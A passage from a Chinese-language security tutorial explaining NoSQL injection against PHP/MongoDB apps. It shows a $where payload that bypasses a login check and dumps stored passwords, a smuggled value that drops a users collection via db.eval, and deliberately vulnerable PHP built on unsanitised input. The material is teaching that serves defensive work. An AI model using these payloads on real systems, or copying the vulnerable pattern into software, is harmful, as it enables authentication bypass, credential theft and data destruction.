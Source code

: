 ![img](https://p2.ssl.qhimg.com/t017b0602500e22aea2.png)

这是因为发送 payload 进入 PHP 后的数据如下：

```php
array(
    '$where' => "
    function() {
        if(this.username == ''||1) {return true;}})//' && this.password == '123456') {
            return true;
        }
    }
")
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({ $where: "function() {if(this.username == ''||1) {return true;}})//' && this.password == '123456') {return true;}}" })
{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
{ "_id" : ObjectId("60fa9c85257f18542b68c4ba"), "username" : "bunny", "password" : "964795" }
{ "_id" : ObjectId("60fa9c88257f18542b68c4bb"), "username" : "bob", "password" : "965379" }
>
```

我们从代码中可以看出，password 中的 `return true` 使得整个 JavaScript 代码提前结束并返回了 `true`，这样就构造出了一个永真的条件并完成了 NoSQL 注入。

**使用 Command 方法造成的注入**

MongoDB Driver 一般都提供直接执行 Shell 命令的方法，这些方式一般是不推荐使用的，但难免有人为了实现一些复杂的查询去使用。在 MongoDB 的服务器端可以通过 `db.eval` 方法来执行 JavaScript 脚本，如我们可以定义一个 JavaScript 函数，然后通过 `db.eval` 在服务器端来运行。

但是在 PHP 官网中就已经友情提醒了不要这样使用：

```php
<?php
$m = new MongoDB\Driver\Manager;

// Don't do this!!!
$username = $_GET['field'];
// $username is set to "'); db.users.drop(); print('"

$cmd = new \MongoDB\Driver\Command( [
'eval' => "print('Hello, $username!');"
] );

$r = $m->executeCommand( 'dramio', $cmd );
?>
```

还有人喜欢用 Command 去实现 MongoDB 的 `distinct` 方法，如下：

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];

$cmd = new MongoDB\Driver\Command( [
    'eval' => "db.users.distinct('username',{'username':'$username'})"
] );

$result = $manager->executeCommand('test.users', $cmd)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
```